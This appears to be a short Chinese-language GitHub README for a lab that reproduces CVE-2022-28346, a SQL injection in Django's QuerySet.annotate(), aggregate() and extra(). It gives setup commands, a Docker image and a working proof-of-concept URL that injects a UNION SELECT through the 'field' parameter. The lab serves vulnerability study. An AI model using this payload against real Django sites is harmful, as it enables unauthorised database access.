

### CVE-2022-28346
Django QuerySet.annotate(), aggregate(), extra() SQL 注入

### 环境初始化
```
1.python manage.py makemigrations
2.python manage.py migrate
3.访问http://x.x.x.x:8000/ 插入初始化数据
```

### 漏洞复现

```
访问http://x.x.x.x:8000/demo
POC: http://x.x.x.x:8000/demo?field=demo.name" FROM "demo_user" union SELECT "1",sqlite_version(),"3" --
```



### Docker

```
docker pull s0cke3t/cve-2022-28346:latest
```

